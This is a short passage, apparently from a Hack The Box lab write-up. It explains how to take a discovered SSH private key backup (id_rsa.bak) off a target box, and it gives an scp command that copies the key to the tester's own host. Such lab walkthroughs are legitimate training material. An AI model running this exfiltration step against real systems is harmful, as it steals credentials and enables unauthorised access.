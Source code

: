 ![img](assets/backup_key.png)

We can either ``cat`` and copy this and save it on our own systems manually or if you have your SSH service set up and running we can use SCP to copy the file over when within the opt folder with the command ``scp id_rsa.bak [your user]@[your IP]:[your DIR]/id_rsa.bak`` using our Hack The Box VPN IP address, our username on our own system and a destination directory of our choosing. 
